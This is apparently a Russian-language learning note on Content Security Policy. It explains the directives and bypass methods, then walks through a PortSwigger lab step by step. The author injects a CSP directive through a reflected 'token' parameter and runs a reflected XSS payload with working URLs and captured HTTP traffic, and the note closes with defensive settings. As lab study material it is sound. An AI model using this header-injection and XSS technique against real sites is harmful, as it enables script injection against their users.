


**CSP — это бронежилет для сайта, который говорит браузеру: «С этого ресурса можно загружать только то, что я разрешу, и откуда разрешу - а  остальное — нах**»

Работает через HTTP-заголовок:
###### Content-Security-Policy: правила_тут

Или через мета-тег в HTML (но с ограничениями) 

Главная задача — **защита от XSS**. 
Даже если разработчик про3бался с санитизацией, и ты смог внедрить свой код, CSP может просто заблокировать его выполнение / звучит удобно..

---

## Как это работает (главные директивы)

Политика состоит из директив, разделенных точкой с запятой. 
Каждая директива отвечает за свой тип контента 
### 1. **`script-src`** — САМАЯ ВАЖНАЯ 

Управляет, откуда можно грузить JavaScript.

- `script-src 'self'` — только скрипты с того же сайта 
    
- `script-src https://trusted.com` — только с конкретного домена
    
- `script-src 'unsafe-inline'` — **ОПАСНОСТЬ!** Разрешает инлайн-скрипты (`<script>...</script>`) и событий (`onerror`). Без этого класссические старые пейлоады с `` не сработают 
    
- `script-src 'unsafe-eval'` — разрешает `eval()`, `setTimeout` со строками и т.д. 
    

### 2. **`default-src`**

Запасной вариант для всех ресурсов, если нет конкретной директивы (для скриптов, стилей, картинок) 

### 3. Другие полезные

- `object-src 'none'` — отрубает плагины типа Flash (бывший источник XSS)
    
- `frame-ancestors 'none'` — запрещает встраивать сайт в iframe на чужих ресурсах (защита от кликджекинга) 
    
- `report-uri /csp-report` — указывает, куда браузер будет слать отчёты о нарушениях 
    

---
🔥
## Как обходят CSP 

CSP - штука мощная, но если разработчик накосячил с настройкой, его можно обойти,  CSP нужно уметь готовить!

### Способ 1: Инъекция в саму политику 

Если сайт отражает твой ввод в заголовок `Content-Security-Policy` (например, в параметр `token`), то  можно добавить туда свои директивы через точку с запятой `;`  Например, дописать `script-src 'unsafe-inline'` и разрешить инлайн-скрипты {{ }}

### Способ 2: JSONP-эндпоинты

Если в `script-src` указан белый домен (например, `*.google.com`), а у этого домена есть JSONP-эндпоинт, который позволяет менять функцию обратного вызова, то можно через него выполнить свой код 

### Способ 3: `strict-dynamic`

Некоторые продвинутые политики используют nonce (одноразовый ключ) или хэши. 
Если nonce генерируется неправильно (например, предсказуем), его можно подобрать 

---


## ============================================
## лаба 
#### Отраженный XSS, защищенный CSP, с обходом CSP
https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass

задание :
обойти CSP и вызывать функцию `alert`

-----

сразу бросается в глаза

```http

Content-Security-Policy: 
default-src 'self'; 
object-src 'none';
script-src 'self'; 
style-src 'self'; 
report-uri /csp-report?token=

```




## Разбор политики

### `default-src 'self'`

Это **запасной вариант** для всех ресурсов, для которых нет отдельных директив. `'self'`означает, что по умолчанию всё можно грузить только **с того же домена**, откуда загружена страница

### `object-src 'none'`

Запрещает загрузку плагинов типа Flash, Java, Silverlight. Это просто защита от старья — они давно не нужны, но могли быть источником XSS

### `script-src 'self'`

 Скрипты разрешены только с того же домена.

### `style-src 'self'`

Стили только с того же домена. Не влияет на XSS напрямую

### `report-uri /csp-report?token=`

- `report-uri` — указывает, куда браузер будет отправлять отчёты о нарушениях CSP
    
- Самое важное: после `token=` **ничего нет**, и это часть URL, который возможно можно будет контролировать


-----


здесь можно пробовать прописать новый токен, но в этом токене просто прописать новую политику которая разрешит выполнение скриптов!

нужно в URL передать  параметр в токен `script-src-elem 'unsafe-inline'`

вот ориг ссылка
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=7777`

добавляю  токен  &token=;script-src-elem 'unsafe-inline'
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=7777&token=;script-src-elem 'unsafe-inline'`

отправил 
 и в ответе вижу новую политику!
 ```html
 HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
X-Frame-Options: SAMEORIGIN
Content-Length: 3254
 ```
 



так еще и доп запрос пришел
автоматом отправился какой-то репорт 
```http
POST /csp-report?token= HTTP/2
Host: 0acf009c0406689180988a58005d00e6.web-security-academy.net
Cookie: session=xU6lyuvhig1HzLORsm3zjI6v5PHjWgmq
Content-Length: 586
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/csp-report
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0acf009c0406689180988a58005d00e6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: report
Referer: https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=7777&token=;script-src-elem%20%27unsafe-inline%27
Accept-Encoding: gzip, deflate, br
Priority: u=4, i

{"csp-report":{"document-uri":"https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=7777&token=;script-src-elem%20%27unsafe-inline%27","referrer":"","violated-directive":"script-src-elem","effective-directive":"script-src-elem","original-policy":"default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'","disposition":"enforce","blocked-uri":"https://0acf009c0406689180988a58005d00e6.web-security-academy.net/resources/labheader/js/labHeader.js","status-code":200,"script-sample":""}}
```

и ответ на репорт
```http
HTTP/2 200 OK
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem%20%27unsafe-inline%27","referrer":"","violated-directive":"script-src-elem","effective-directive":"script-src-elem","original-policy":"default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'","disposition":"enforce","blocked-uri":"https://0acf009c0406689180988a58005d00e6.web-security-academy.net/resources/labheader/js/labHeader.js","status-code":200,"script-sample":""}}
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

----------

сам пейлоад подставляется сюда 
```html
<h1>0 search results for '7777'</h1>
```

по идее теперь можно подставлять скрипты!
также токен туда + скприпт

`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=7777&token=;script-src-elem 'unsafe-inline'`

простой пейлоад
``

итого
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search=&token=;script-src-elem 'unsafe-inline'`


ответ
```html

 <h1>0 search results for ''</h1>
```
алерта нет
подставились кавычки

нужно закрыть кавычки и закрыть тег h1
отправляю
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search='>&token=;script-src-elem 'unsafe-inline'`

ответ
```html
<h1>0 search results for ''>'</h1>
```
нет алерта

-----

отправляю
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search='</h1>&token=;script-src-elem 'unsafe-inline'`

ответ
```html
<section class=blog-header>
  <h1>0 search results for ''</h1>
  '</h1>
 <hr>
</section>
```
хз, но алерта нет

----------

отправляю
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search='</h1><h1>&token=;script-src-elem 'unsafe-inline'`

ответ
```html
                   <section class=blog-header>
                        <h1>0 search results for ''</h1><h1>'</h1>
                        <hr>
                    </section>
```
вроде все ок хз, но алерта нет


-----

Я ПОНЯЛ ПОЧЕМУ ОШИБКИ!!

script-src-elem 'unsafe-inline'   разрешает только инлайн скрипты то есть например < script> 

а вот события  типа `onerror` относятся к `script-src-attr` и не разрешены!

-----
отправляю
`https://0acf009c0406689180988a58005d00e6.web-security-academy.net/?search='</h1><script>alert("xss")</script><h1>&token=;script-src-elem 'unsafe-inline'`

ответ
```html
                   <section class=blog-header>
                        <h1>0 search results for ''</h1><script>alert("xss")</script><h1>'</h1>
                        <hr>
                    </section>
```
⭐️ АЛЕРТ ПОЯВИЛСЯ!!!!!! УРА!!!!!!!

я сам себе чпокал мозг, забыв что разрешено CSP ))


----------

## Что я понял про эту лабу

CSP можно обойти, если параметр из URL попадает в заголовок без валидации. Достаточно добавить свою директиву через точку с запятой

`script-src-elem 'unsafe-inline'` разрешает только инлайн-теги `<script>`, но не события типа `onerror` — они относятся к `script-src-attr`

Нужно было не закрывать тег `<h1>` и кавычки через `'>`, а просто вставить `<script>`после закрытия тега

Политика `default-src 'self'` и `script-src 'self'` запрещала инлайн-скрипты, но добавление `script-src-elem 'unsafe-inline'` перезаписало это правило для элементов `<script>`

Даже обойдя CSP, нужно учитывать **контекст внедрения** — пейлоад должен стать самостоятельным HTML-элементом, а не оставаться внутри другого тега


## Как защититься от такого

Никогда не отражать пользовательский ввод в заголовках безопасности, особенно в `report-uri`.

Использовать строгие политики без `'unsafe-inline'` и `'unsafe-eval'` — только nonce или хэши для скриптов.

Разделять директивы: `script-src` для всех скриптов, `script-src-elem` только для элементов, `script-src-attr` для событий, и не разрешать лишнего.

Валидировать и кодировать все параметры, даже те, что идут в заголовки.

Тестировать политики через `Content-Security-Policy-Report-Only` перед включением.


## Защита (правильные настройки)

1. **Никакого `'unsafe-inline'` и `'unsafe-eval'`** — это главное правило.
    
2. **Использовать nonce или хэши** — для каждого легального скрипта генерировать уникальное значение. Тогда внедренный скрипт без nonce просто не запустится 
    
3. **`object-src 'none'`** — закрыть векторы со старыми плагинами
    
4. **`default-src 'self'`** — ограничить всё своим доменом, а для внешнего контента прописывать исключения
    
5. **Не отражать пользовательский ввод в заголовках**, чтобы нельзя было добавить свою директиву
    
6. Тестировать через `Content-Security-Policy-Report-Only`, чтобы не поломать сайт 
    

---


